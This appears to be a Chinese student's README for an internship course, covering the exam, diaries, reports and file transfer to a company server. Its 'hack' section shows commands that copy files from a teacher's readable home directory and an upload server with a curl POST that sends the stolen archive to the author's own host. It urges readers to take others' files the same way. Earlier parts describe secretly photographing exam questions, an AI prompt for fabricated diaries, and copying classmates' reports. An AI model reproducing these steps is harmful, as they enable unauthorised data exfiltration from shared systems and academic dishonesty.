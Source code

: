 # 毕业实习

大四的最后一门课，故意放在考研后，避免挤占考研复习时间。这个时间点，大家未来的研究方向/就业方向已经决定了吧，不是每个人都去做芯片的，我认为，如果跟自己的方向不重合，就不用听。

（笑死，上课去的人还不到一半，没有签到，随便翘。大家都有自己的事，谁来听这个毕业实习。）

不像其他专业的毕业实习，信息工程专业没有任何企业参观，全部在教室学东西，只是请了个企业讲师来讲课。[上课安排](./上课安排.xlsx)

## 考试

考试决定平时成绩，占总成绩 30%

最后一天有一个考试，一小时。开卷，允许上网查资料，除了不能用手机拍照其他的都可以干，所以完全没有必要专门去学习。请谨慎使用 AI，因为可能会给出错误的答案。

交卷时我把考题悄悄拍下来了，给后人留下[一些参考](./考试)。都非常简单的题目。

## 资料

- [飞书链接](https://k0wclrk5a3j.feishu.cn/drive/folder/CCxzfWBR8lKaARdFi0jcqXIunlj)

## 日记与报告

剩下的是日记与报告，占总成绩的 70%。

### 日记

让我们用 AI：

```
我目前正在参加一项实践课程，需要每天写一篇实习日记，包含自己学到的东西与新得体会。稍后我会将学习主题和资料发送给你，每次代表这一天学习的主题，请你帮我每天写一篇日记。至于学到了什么具体的内容，你可以自己补充。日记风格是个人感悟式的抒发，长度约为 300-400 字，希望包含一些遇到的困难与解决方法。
```

### 报告

报告允许全部使用电子版编写，打印后贴到报告本里。

内容就等等其他人，~~或者因为大家都因为寒假急着回家，此时自告奋勇留在学校收报告，就可以大抄特抄了~~。至于图片，找熟人要一下，或者网上找找都行。

## 传文件到服务器

现在是 AI 时代，想必大家都不愿意在服务器里手打，而是 AI 辅助完成后再传到服务器上调试。（或者传一些 Linux 工具）

<details><summary>展开</summary>

我们使用 VNC 面板连接到企业提供的服务器。VNC 端口 <124.152.95.232:5999>，这玩意甚至 ping 不通。服务器本身不支持通过 VNC 文件传输：_VNC Server does not support file transfer_。

服务器上每个人都是一个用户，并没有做虚拟机级别的隔离。虽然我不能访问其他同学的 HOME 目录，但是老师的 home 可以访问。（不知道为啥留个洞）

查看 `/etc/ssh/ssh_config`，看到 Port 为 2222，尝试连接无效，基本能推断出给的 IP 只是一个反代。

在服务器上 `ping baidu.com` 无效，没做 dhcp。但是尝试 ping 一个 IP，正常，说明有网络连接。那就好办了，因为我们每个宿舍都有公网 IP。

在本机开一个 http server（`python -m http.server 55555`），去路由器设置里把本机这个端口暴露到公网。然后在服务器上 `wget http://xxx.xxx.xx.xxx:55555/myfile.txt`，就可以从本机传文件到服务器上了。

然后过了一阵子，课程结束，这时候我发现没法传文件上去了，对外网络已经全部关掉了。也不知道是发现了这个 bug 还是咋地。于是没辙，只好尝试一下 VNC 本身的剪贴板交互。这样只能传输字符，对传二进制需要额外处理。

1. Ctrl + Shift + C 复制，Ctrl + Shift + V 粘贴。不过遇到软件本身的 shell 时可能会有光标错位的情况，这时候请使用 gvim 编辑器粘贴命令到脚本中，再执行脚本。
2. 在 python 中可以使用 `pyautogui` 模块来模拟键盘输入。具体代码在 [send_text.py](./send_text.py) 中。将要发送的内容写到 `text_to_send` 文件中，VNC 里打开 vim 准备输入，然后运行脚本，切换到 VNC 窗口。这样可能会有格式问题，因为 VNC 上的 vim 被配置了自动缩进。我们需要在 `~/.vimrc` 的末尾添加：
   ```
   set noautoindent
   set nosmartindent
   set nocindent
   ```
   这样再运行即可。

</details>

## hack

<details><summary>展开</summary>

我传了一个 [fd](https://github.com/sharkdp/fd) 用来在教师盘里找文件。我更习惯 fd，感觉比 find 好用。然后用类似 `fd -H -e jpg -e doc -e docx -e ppt -e pptx -x cp {} ~/my` 把貌似有用的资料全部偷下来。

那么如何传到自己的电脑呢？首先先打个 tar.gz，然后有两个方法。

1. 由于自己电脑有公网 IP，所以直接用基于 ssh 的 scp/rsync 即可。需要在 _windows 设置 - 系统 - 可选功能_ 里安装 OpenSSH 服务器，然后把 22 端口开放到公网。
2. 改一改 http server 的代码，让它可以接受数据输入。用 GPT 快速糊一个：

   ```python
   import os
   from http.server import HTTPServer, SimpleHTTPRequestHandler


   class UploadHandler(SimpleHTTPRequestHandler):
       def do_POST(self):
           # 获取上传文件的长度
           content_length = int(self.headers["Content-Length"])

           # 读取上传的文件内容
           file_content = self.rfile.read(content_length)

           # 获取上传的文件名
           filename = os.path.basename(self.path)

           # 将文件写入到当前目录
           with open(filename, "wb") as f:
               f.write(file_content)

           # 返回成功响应
           self.send_response(200)
           self.end_headers()
           self.wfile.write(b"File uploaded successfully")


   if __name__ == "__main__":
       # 设置服务器地址和端口
       server_address = ("", 55555)
       httpd = HTTPServer(server_address, UploadHandler)

       print("Starting server on port 55555...")
       httpd.serve_forever()
   ```

   运行，然后就可以通过 POST 命令上传文件了。这里使用 curl：`curl --noproxy '*' -x P0ST --data-binary @my.tar.gz http://xxx.xxx.xx.xx:55555/a.tar.gz`。noproxy 是必要的，服务器上有奇怪的代理设置。

   或者不用 gpt 脚本，直接用现成库 [uploadserver](https://github.com/Densaugeo/uploadserver) 也行。

仿照这个例子，再把有访问权限的其他人的东西给偷过来。

结果最后发现好像没有偷到什么有价值的东西。

</details>
